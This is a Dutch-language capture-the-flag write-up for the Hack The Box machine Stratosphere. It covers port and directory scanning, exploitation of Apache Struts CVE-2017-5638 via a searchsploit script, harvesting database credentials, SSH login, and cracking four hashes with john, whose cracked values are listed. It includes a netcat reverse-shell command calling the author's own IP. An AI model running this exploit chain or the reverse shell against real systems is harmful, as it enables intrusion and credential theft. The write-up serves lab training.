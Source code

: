 # Stratosphere

## Low privilege

Eerst begin ik met een Nmap scan:

``` nmap -sV -p- -T5 -oN 10.10.10.64.nmap```

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/1.PNG" />

<ul>
	<li>sV: Probeer versie namen te vinden</li>
	<li>-p-: Scan alle TCP poorten </li>
	<li>-T5: Scan snel en aggresief</li>
	<li>-oN: Save output als Nmap formaat </li>
</ul>


Er is een webserver dus draai ik meteen een dirbsearch scan:

```python3 dirsearch.py -u http://10.10.10.64 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -t 25 ```

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/2.PNG" />
Argumenten spreken voor zich neem ik aan.

Wanneer ik naar /Monitoring navigeer word ik omgeleid naar http://10.10.10.64/Monitoring/example/Welcome.action. Ik wist niet precies wat er bij .action bestanden hoorden dus had ik dat opgezocht op Google.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/3.PNG" />

Ik lees Struts, dus weet ik genoeg.

```searchsploit -x linux/webapps/41570.py ```

Dit is een Python script dat CVE-2017-5638 probeert te exploiteren.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/4.PNG" />

Hoppa, remote code execution! Het is nu de bedoeling dat ik een shell krijg, en dat is niet zo moeilijk. In plaats van ```echo "Gio" ``` als commando te gebruiken gebruik ik een commando waarmee ik dus een shell kan krijgen. De commando die ik meestal gebruik is: ```nc -e /bin/sh [Mijn tunnel ip] 1234 ```. Maar dit werkt niet, sterker nog geen één reverse shell commando werkt, dit kom waarschijnlijk omdat de script niet kan blijven hangen maar een error gooit. 

Ongeveer 2 uur later is mijn irritatie grens bereikt en probeer ik te kijken of er misschien andere interesante dingen zijn. Het eerste wat ik dan doe is kijken of de webserver database credentials lekt en met deze proberen in te loggen. Ik zie (via het Python script) dat er een ``db_connect`` bestaat, en deze bevatten de database credentials :).

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/5.PNG" />

Oké vet, maar ik heb geen shell dus is het niet echt mogelijk om een interactieve MySQL shell te krijgen. Na een tijdje door de man pagina van MySQL te hebben gebladerd kwam ik iets heel interesant tegen:

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/6.PNG" />

Hierdoor is het mogelijk om statements uit te voeren zonder een interactieve shell te hebben. Dus, ik weet de credentials van de database en ik heb een manier gevonden om statements uit te voeren.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/7.PNG" />

Dit ziet er héél lekker uit. Hier zie ik een gebruiker genaamd Richard en zijn wachtwoord. Dit zijn vast ook zijn SSH credentials.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/8.PNG" />

Boom, ez lyfe.

## Privilege escalation

Het eerste dat ik doe als ik user ben op een machine is kijken of die user bestanden mag openen als root, dit doe ik doormiddel van de commando `` sudo -l ``

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/9.PNG" />

Het ziet er naar uit dat ik `` /home/richard/test.py `` mag uitvoeren als root. eens kijken wat dat script precies doet:

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/10.PNG" />

Dit ziet er naar uit dat dit een soort <l>Solve-the-hash(?)</l> challenge is en zodra je alles goed heb het /root/success.py uitvoert. In het script staat precies welke algoritme bij welke hash hoort. ```John``` is een tool die dit voor mij kan oplossen.

Eerste hash: `` john --format=raw-md5 --wordlist=~/rockyou.txt hash # kaybboo!`` <br>
Tweede hash: `` john --format=raw-sha1 --wordlist=~/rockyou.txt hash # ninjaabisshinobi`` <br>
Derde  hash: `` john --format=raw-md4 --wordlist=~/rockyou.txt hash # legend72`` <br>
Vierde hash: `` john --format=raw-blake2 --wordlist=~/rockyou.txt hash # Fhero6610 `` <br>
